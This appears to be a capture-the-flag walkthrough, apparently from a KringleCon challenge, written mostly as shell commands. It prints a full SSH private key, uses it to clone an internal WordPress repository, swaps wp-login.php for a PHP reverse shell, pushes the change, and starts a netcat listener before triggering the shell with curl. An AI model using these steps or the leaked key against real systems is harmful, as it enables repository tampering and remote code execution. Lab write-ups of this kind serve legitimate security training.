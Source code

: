 ```    
cp -r .ssh ~/.ssh

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU59wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com

cd && chmod 700 .ssh && cd .ssh

touch known_hosts && mv .deploy deploy && mv .deploy.pub deploy.pub
    
chmod 600 deploy && chmod 644 deploy.pub && cd ~/shell
    
eval $(ssh-agent -s)
    
ssh-add ~/.ssh/deploy
    
ssh -Tvvvv git@gitlab.flags.net.internal
    
git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
```

- copy PHP reverse shell into github repo (as shell.php)
- configure PHP reverse shell (ip and port)

```    
mv wp-login.php wp-login.php.old

mv shell.php wp-login.php

git config user.email sporx@kringlecon.com

git config user.name knee-oh

git add *

git commit -m '.'

git push
```

- start netcat listener in background 

```    
nc -lvnp 4444 &

curl http://wordpress.flag.net.internal/wp-login.php
```
